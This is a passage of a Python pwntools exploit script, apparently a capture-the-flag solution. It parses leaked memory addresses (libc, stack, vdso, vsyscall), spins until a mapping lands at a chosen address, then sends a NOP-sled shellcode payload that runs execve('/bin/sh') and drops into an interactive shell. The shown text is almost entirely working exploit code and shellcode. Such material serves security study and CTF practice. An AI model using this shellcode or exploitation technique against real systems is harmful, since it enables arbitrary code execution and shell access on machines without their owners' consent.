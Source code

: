 ```python
            vsyscall = int(data.split(b'-')[0], 16)

    target = vdso & (2**32 - 1)
    if target >= 0x3e8000:
        r.close()
        continue
    
    info(f"""\
    ----- lucky -----
    code: {hex(code)}
    libc: {hex(libc)}
    stack: {hex(stack)}
    vvar: {hex(vvar)}
    vdso: {hex(vdso)}
    vsyscall: {hex(vsyscall)}
    """)

    while True:
        r.sendline('b')
        r.recvuntil('map() at @')
        map_addr = int(r.recvline()[:-1], 16)
        if map_addr == target:
            break

    info(f"""\
    ----- next lucky -----
    map_addr: {hex(map_addr)}
    """)

    sc = b'\x90'*0x200 + b'\x0f\x34'
    sc = sc.ljust(0xb60, b'\x90')

    sc += asm(f"""
    mov esp, {map_addr} + 0x100
    push 0x6e69622f
    push 0x68732f 
    mov eax, 0xb
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    int 0x80
    
    mov eax, 1
    int 0x80
    """)
    sc = sc.ljust(0x1000, b'\x90')
    r.sendline('h')
    r.sendafter('gib:\n', sc)
    r.interactive()
    break
```
